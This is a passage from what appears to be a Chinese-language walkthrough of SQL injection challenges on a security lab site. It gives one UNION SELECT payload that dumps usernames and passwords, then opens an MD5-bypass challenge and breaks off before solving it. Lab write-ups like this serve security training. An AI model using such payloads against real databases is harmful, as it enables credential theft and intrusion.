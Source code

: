 6.  接下来……额不说了，直接可以用union获得回显，操作如同题目3。直接给出最后的**Payload**：`union select 1,2,group_concat(username,0x7e,password) from mydbs.sae_manager_sqli8`![在这里插入图片描述](img/f6f5c043a7dc63ac32d6056807991555.png)

# MD5绕过注入

【第9题】[通关地址](http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/)

名称：据说哈希后的密码是不能产生注入的
背景: 代码审计与验证
![在这里插入图片描述](img/cadb714acf74c823c82018c6c5f6c6ee.png)
【解题过程】
